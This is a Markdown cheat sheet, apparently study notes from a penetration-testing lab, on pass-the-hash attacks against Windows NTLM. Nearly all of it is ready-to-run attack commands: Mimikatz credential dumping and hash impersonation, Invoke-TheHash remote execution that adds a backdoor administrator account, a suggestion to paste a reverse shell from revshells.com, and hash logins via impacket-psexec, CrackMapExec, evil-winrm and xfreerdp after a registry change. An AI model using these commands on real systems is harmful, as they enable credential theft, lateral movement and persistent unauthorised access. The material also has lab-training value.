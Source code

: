 ---------------------------
# Windows NTLM Introduction
-------------------------
- Using Mimikatz
	- Log in using hashes 
	```cmd
	mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit

		# Options
		/user - The username we want to impersonate
		/rc4 or /NTLM - NTLM hash of the user's password
		/domain - Domain the user to impersonate belongs to.
		/run - the program we want to run once logged in	
	```
	- Extract hashes in the same session
	```cmd
	mimikatz.exe privilege::debug "sekurlsa::logonPasswords full" exit
	```
	
- PowerShell Invoke-TheHash
```PowerShell
# Invoke-TheHash with SMB
Import-Module .\Invoke-TheHash.psd1
Invoke-SMBExec -Target $IP -Domain $DOMAIN -Username $USERNAME -Hash $HASH -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

# Note we can create a reverse shell from this command
# Go to this page to set up a revesere shell https://www.revshells.com/
# Paste whatever generated into the -Command flag
```

```PowerShell
# Invoke-TheHash with WMI
Import-Module .\Invoke-TheHash.psd1
Invoke-WMIExec -Target $IP -Domain $DOMAIN -Username $USERNAME -Hash $HASH -Command $COMMAND
```

- Pass the Hash with Impacket PsExec
```bash
impacket-psexec administrator@$IP -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

- Pass the Hash with CrackMapExec
```bash
crackmapexec smb $IP -u $USERNAME -d . -H $HASH

# Execute command with CrackMapExec
crackmapexec smb $Ip -u $USERNAME -d . -H $HASH -x $COMMAND
```

- Pass the Hash with evil-winrm
```bash
evil-winrm -i $IP -u $USERNAME -H $HASH
```

- Pass the Hash with RDP
	- Precondition: Restricted Admin Mode must be enabled on the TARGET
	```cmd
	reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
	```
	- Run xfreerdp with /pth flag
	```bash
	xfreerdp /v:$IP /u:$USERNAME /pth:$HASH
	```


